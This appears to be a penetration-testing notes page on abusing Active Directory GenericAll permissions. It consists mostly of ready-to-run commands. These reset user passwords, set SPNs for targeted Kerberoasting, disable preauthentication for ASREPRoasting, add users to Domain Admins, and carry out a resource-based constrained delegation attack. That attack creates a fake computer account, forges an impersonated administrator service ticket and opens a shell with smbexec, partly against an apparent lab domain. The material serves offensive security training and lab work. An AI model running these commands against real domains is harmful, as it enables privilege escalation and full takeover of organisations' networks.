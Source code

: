# GenericAll Abuse



## Introduction

Active Directory users are defined by securable objects known as ACL/ACE's. Active Directory Discretionary Access Control Lists (DACLs) and Acccess Control Entries (ACEs). These define what permissions the user has and can or cannot do  (i.e change account name, reset password, etc).&#x20;

<mark style="color:yellow;">**GenericAll is the "God Mode" of the object permissions.**</mark>

Here are some AD object permissions we're interested in.

* **GenericAll** - full rights to the object (add users to a group or reset user's password - <mark style="color:yellow;">God mode</mark>).
* **GenericWrite** - update object's attributes (i.e logon script)
* **WriteOwner** - change object owner to attacker controlled user take over the object
* **WriteDACL** - modify object's ACEs and give attacker full control right over the object
* **AllExtendedRights** - ability to add user to a group or reset password
* **ForceChangePassword** - ability to change user's password
* **Self (Self-Membership)** - ability to add yourself to a group



## Abusing GenericAll

There are three types of objects that can a user can have GenericAll permissions. User, Group, and Computer.

To view ACL/ACE permissions we can use tools like **`PowerView`** and **`Bloodhound`**.



### GenericAll on User

*   **Change password**: You could just change the password of that user with

    ```powershell
    net user <username> <password> /domain
    ```
*   **Targeted Kerberoasting**: You could make the user **kerberoastable** setting an **SPN** on the account, kerberoast it and attempt to crack offline:

    ```powershell
    # Set SPN
    Set-DomainObject -Credential $creds -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}
    # Get Hash
    .\Rubeus.exe kerberoast /user:<username> /nowrap
    # Clean SPN
    Set-DomainObject -Credential $creds -Identity <username> -Clear serviceprincipalname -Verbose

    # You can also use the tool https://github.com/ShutdownRepo/targetedKerberoast 
    # to get hashes of one or all the users
    python3 targetedKerberoast.py -domain.local -u <username> -p password -v
    ```
*   **Targeted ASREPRoasting**: You could make the user **ASREPRoastable** by **disabling** **preauthentication** and then ASREProast it.

    ```powershell
    Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
    ```

### GenericAll on Group

We can add a user we control to the vulnerable group.

```powershell
net group "domain admins" <username> /add /domain
```



### GenericAll on Computer

A common attack with generic all on a computer object is to add a fake computer to the domain.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If enumerating and we see a user has GenericAll permission on a computer we know we full control.

We can perform a <mark style="color:yellow;">**Kerberos Resourced Based Constrained Delegation attack**</mark>: computer takover. This attack allows us to impersonate a specific user (Administrator).





## Abusing GenericAll Computer Object Kerberoast Ticket Abuse

###

### Also known as: "Resource Based Constrained Delegation Attack"

We will be following this guide [https://github.com/tothi/rbcd-attack](https://github.com/tothi/rbcd-attack)

### Toshi's "Impacket" method.

### Add Computer to Domain

We'll first need to add a new machine. We can add a computer to the domain with impacket-addcomputer.

Below are some useful commands.

<pre class="language-powershell"><code class="lang-powershell"><strong># Add a computer to the domain via domain credentials
</strong>impacket-addcomputer domain.com/user -dc-ip 192.168.x.x -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'

#Add a computer account via hashed credentials
impacket-addcomputer domain.com/user -dc-ip 192.168.x.x -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'
<strong>
</strong><strong># Add a computer account via domain credentials
</strong>impacket-addcomputer -computer-name 'COMPUTER$' -computer-pass 'SomePassword' -dc-host $DomainController -domain-netbios $DOMAIN 'DOMAIN\user:password'

# Modify a computer account password
impacket-addcomputer -computer-name 'COMPUTER$' -computer-pass 'SomePassword' -dc-host $DomainController -no-add 'DOMAIN\user:password'

# Delete a computer account
impacket-addcomputer -computer-name 'COMPUTER$' -dc-host $DomainController -delete 'DOMAIN\user:password'
</code></pre>

### Toshi's rbcd attack

{% embed url="https://github.com/tothi/rbcd-attack" %}

#### Creating the fake computer

Using addcomputer.py example from Impacket let's create a fake computer (called `evilcomputer`):

```
addcomputer.py -computer-name 'evilcomputer$' -computer-pass ev1lP@sS -dc-ip 192.168.33.203 ecorp.local/test:ohW9Lie0
```

#### Modifying delegation rights

Implemented the script [rbcd.py](https://github.com/tothi/rbcd-attack/blob/master/rbcd.py) found here in the repo which adds the related security descriptor of the newly created EVILCOMPUTER to the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the target computer.

```
./rbcd.py -f EVILCOMPUTER -t WEB -dc-ip 192.168.33.203 ecorp\\test:ohW9Lie0
```

The script uses heavily the Python classes in the `ntlmrelayx.py` Impacket example. For help and an example call the script without options.

#### Getting the impersonated service ticket

Now everything is ready for abusing the Constrained Delegation by an S4U2Self query and get an impersonated Service Ticket for the target computer. With `getST.py` Impacket example script:

```
getST.py -spn cifs/WEB.ecorp.local -impersonate admin -dc-ip 192.168.33.203 ecorp.local/EVILCOMPUTER$:ev1lP@sS
```

The above command fetches a CIFS Service Ticket on behalf of the targetted domain user `admin` and stores it in the file `admin.ccache`.

After adding the file path to the KRB5CCNAME variable the ticket is usable for Kerberos clients.

```
export KRB5CCNAME=`pwd`/admin.ccache
klist
```





### Server Side Method

Here is another way to abuse GenericAll on a computer group

```powershell
# -------- On Server Side
# Upload tools
upload /home/user/Tools/Powermad/Powermad.ps1 pm.ps1
upload /home/user/Tools/Ghostpack-CompiledBinaries/Rubeus.exe r.exe

# Import PowerMad
Import-Module ./pm.ps1

# Set variables
Set-Variable -Name "FakePC" -Value "FAKE01"
Set-Variable -Name "targetComputer" -Value "DC"

# With Powermad, Add the new fake computer object to AD.
New-MachineAccount -MachineAccount (Get-Variable -Name "FakePC").Value -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

# With Built-in AD modules, give the new fake computer object the Constrained Delegation privilege.
Set-ADComputer (Get-Variable -Name "targetComputer").Value -PrincipalsAllowedToDelegateToAccount ((Get-Variable -Name "FakePC").Value + '$')

# With Built-in AD modules, check that the last command worked.
Get-ADComputer (Get-Variable -Name "targetComputer").Value -Properties PrincipalsAllowedToDelegateToAccount
```



<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```powershell
# With Rubeus, generate the new fake computer object password hashes. 
#  Since we created the computer object with the password 123456 we will need those hashes
#  for the next step.
./r.exe hash /password:123456 /user:FAKE01$ /domain:support.htb
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```powershell
# -------- On Attck Box Side.
# Using getTGT from Impacket, generate a ccached TGT and used KERB5CCNAME pass the ccahe file for the requested service. 
#   If you are getting errors, "cd ~/impacket/", "python3 -m pip install ."
/home/user/Tools/impacket/examples/getST.py support.htb/FAKE01 -dc-ip dc.support.htb -impersonate administrator -spn http/dc.support.htb -aesKey 35CE465C01BC1577DE3410452165E5244779C17B64E6D89459C1EC3C8DAA362B

# Set local variable of KERB5CCNAME to pass the ccahe TGT file for the requested service.
export KRB5CCNAME=administrator.ccache

# Use smbexec.py to connect with the TGT we just made to the server as the user administrator 
#  over SMB protocol.
smbexec.py support.htb/administrator@dc.support.htb -no-pass -k
```
